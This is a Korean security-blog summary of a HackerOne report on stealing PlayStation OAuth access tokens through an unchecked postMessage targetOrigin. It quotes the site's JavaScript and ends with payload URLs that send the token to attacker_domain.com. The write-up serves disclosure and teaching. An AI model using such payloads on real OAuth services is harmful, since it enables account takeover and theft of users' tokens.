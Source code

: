 ```yaml
---
title: "[하루한줄] Access token stealing in playstation"
author: L0ch
tags: [L0ch,  access token stealing, playstation, javascript]
categories: [1day1line]
date: 2020-11-24 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Access token stealing in playstation](https://hackerone.com/reports/821896)

## Target

https://my.playstation.com

## Explain

콘솔 게임기기인 PlayStation의 커뮤니티 https://my.playstation.com/auth/response.html 에서 로그인된 사용자의 Access Token을 탈취할 수 있는 취약점이 발견되었습니다.

https://my.playstation.com/auth/response.html?requestID=iframe_request_ca8b5107-9b8f-4510-9667-15fd7b9327d1&baseUrl=/&targetOrigin=https://my.playstation.com 페이지는 발급 서버에서 클라이언트로 OAuth 액세스 토큰을 전송하는 자바스크립트를 호스팅 합니다.

```jsx
function parseResponse(a) {
    var b = a.hash.substr(1),
        c = a.search.substr(1),
        d = b + "&" + c,
        e = convertToObject(d);
    return e.refererURL = a.toString(), e
}
....

function sendResponseToApp(a) {
    var b = extractFrameTypeFromRequestID(a.requestID),
        c = a.targetOrigin || getOrigin(),
        d = a.baseUrl || "",
        e = a.returnRoute || "",
        f = a.excludeQueryParams,
        g = !f && window.location.search || "";
    switch (b) {
...
        case "window":
            window.opener.postMessage(a, c);
            break;
...
    }
}

var response = parseResponse(window.location);
sendResponseToApp(response);
```

호스팅된 위 자바스크립트에서 아래 과정을 통해 access token을 해커의 서버로 전송할 수 있습니다.

1. request query를 `parseResponse()` 함수에서 파싱 한 뒤  `sendResponseToApp()` 의 매개변수로 전달해 호출합니다.
2. query 중 `reqeustID` 필드 값이 "window" 면 `window.opener.postMessage()`를 호출합니다.
3. `window.opener.postMessage()` 는 첫 번째 매개변수를 두 번째 매개변수인 특정 도메인으로 전달할 수 있습니다. 매개변수로 query와 `targetOrigin` 필드 값이 전달되면 `targetOrigin` 도메인으로 query에 포함되어 있는 Access Token을 전송할 수 있습니다.



이를 이용한 최종 페이로드는 다음과 같습니다.

```jsx
https://my.playstation.com/auth/response.html?requestID=window_request_ca8b5107-9b8f-4510-9667-15fd7b9327d1&baseUrl=/&targetOrigin=https://attacker_domain.com 
```

위 페이로드를 OAuth 발급 서버 request query의 `redirect_uri` 필드 값으로 보내면 Access Token을 탈취할 수 있습니다.

```jsx
https://auth.api.sonyentertainmentnetwork.com/2.0/oauth/authorize?response_type=token&scope=capone:report_submission,kamaji:game_list,kamaji:get_account_hash,user:account.get,user:account.profile.get,kamaji:social_get_graph,kamaji:ugc:distributor,user:account.identityMapper,kamaji:music_views,kamaji:activity_feed_get_feed_privacy,kamaji:activity_feed_get_news_feed,kamaji:activity_feed_submit_feed_story,kamaji:activity_feed_internal_feed_submit_story,kamaji:account_link_token_web,kamaji:ugc:distributor_web,kamaji:url_preview&client_id=656ace0b-d627-47e6-915c-13b259cd06b2&redirect_uri=https://my.playstation.com/auth/response.html?requestID=window_request_ca8b5107-9b8f-4510-9667-15fd7b9327d1&baseUrl=/&targetOrigin=https://attacker_domain.com/&prompt=non
```

